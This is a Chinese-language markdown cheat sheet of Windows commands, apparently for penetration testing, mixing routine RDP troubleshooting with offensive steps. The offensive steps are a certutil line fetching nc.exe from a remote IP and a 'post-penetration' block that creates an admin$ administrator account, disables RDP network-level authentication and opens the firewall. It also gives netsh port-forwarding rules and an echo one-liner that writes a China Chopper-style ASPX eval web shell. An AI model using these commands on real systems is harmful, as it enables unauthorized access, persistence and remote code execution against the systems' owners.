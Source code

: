 

## 下载文件

certutil -urlcache -split -f http://11.1.63.39/nc.exe

powershell
```ts
$client = new-object System.Net.WebClient
$client.DownloadFile(‘http://payloads.online/file.tar.gz', ‘E:\file.tar.gz’)
```
### certuil
```
certuil -encode in out # 转base64
certuil -decode out in # 还原
```
## 渗透后置操作

```bat
net user admin$ tuser321 /add
net localgroup administrators admin$ /add
REG ADD "HKLM\SYSTEM\CurrentControlSet\Control\Terminal Server\WinStations\RDP-Tcp" /v UserAuthentication /t REG_DWORD /d 0
REG ADD "HKLM\SYSTEM\CurrentControlSet\Control\Terminal Server\WinStations\RDP-Tcp" /v SecurityLayer /t REG_DWORD /d 0
netsh advfirewall firewall add rule name="Remote Desktop" protocol=TCP dir=in localport=3389 action=allow

:: 开启远程
wmic RDTOGGLE WHERE ServerName='%COMPUTERNAME%' call SetAllowTSConnections 1
echo 远程桌面端口 port number is 
REG QUERY "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server\WinStations\RDP-Tcp" /v PortNumber

gpupdate /force
# 查看开了哪些端口
netstat -aon

:: 关闭远程
REG ADD "HKLM\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /D 0 /f
wmic RDTOGGLE WHERE ServerName='%COMPUTERNAME%' call SetAllowTSConnections 0
```

## FAQ
### 剪贴板突然不能用了

```sh
taskkill /im rdpclip.exe /f
rdpclip.exe
# gpedit.msc，计算机配置->管理模板->Windows 组件->远程桌面服务->远程桌面会话主机->设备和资源重定向->不允许剪贴板重定向，设置为无配置
# https://blog.51cto.com/u_14286115/5193293
```

###  终端服务器超过最大允许连接数
远程桌面界面，在地址栏上 1.1.58.58:65535 /admin

或cmd `mstsc /admin /v:1.1.58.58:65535` ,  此方式不能操作剪贴版
### cmd下信息乱码

```shell
# set utf8
chcp 65001
```

### 终端操作
```
# 查询
qwinsta 查询连接
query session
query user
# kill
log off <id>
tsdiscon rdp-tcp#946
rwinsta <id>关闭连接
```

## TODO
1.TODO: 终端服务器超过最大允许连接数 修改
```
reg query HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\LanmanServer\Parameters
reg query "HKEY_LOCAL_MACHINE\SOFTWARE\Policies\Microsoft\Windows NT\Terminal Services" /v MaxInstanceCount
reg add "HKLM\SOFTWARE\Policies\Microsoft\Windows NT\Terminal Services" /v MaxInstanceCount /t REG_DWORD /d 10 /f

# https://admx.help/?Category=Windows_10_2016&Policy=Microsoft.Policies.TerminalServer::TS_MAX_CON_POLICY
tsadmin 可看连接
```
## 查找文件 
win7以上
```ts
find F:\Downloads #查找目录下所有文件　
find F:\Downloads | findstr Apifox      # 过滤Apifox
```
xp/2003

dir \calendar /s
dir D:\ /s | findstr /i txt >c:\tmp.txt


## 端口转发
win7以上
```bash
netsh interface portproxy add v4tov4 listenport=4546 connectaddress=1.1.58.59 connectport=1521
netsh interface portproxy delete v4tov4 listenport=4546 listenaddress=1.1.58.58
netsh interface portproxy show all
netsh interface portproxy reset
```


## 注册表添加删除程序
x64
HKEY_LOCAL_MACHINE\SOFTWARE\Wow6432Node\Microsoft\Windows\CurrentVersion\Uninstall\

## echo 相关

转义用^

aspx
```
echo ^<%@ Page Language="Jscript"%^>^<%eval(Request.Item["chopper"],"unsafe");%^>  >1
```
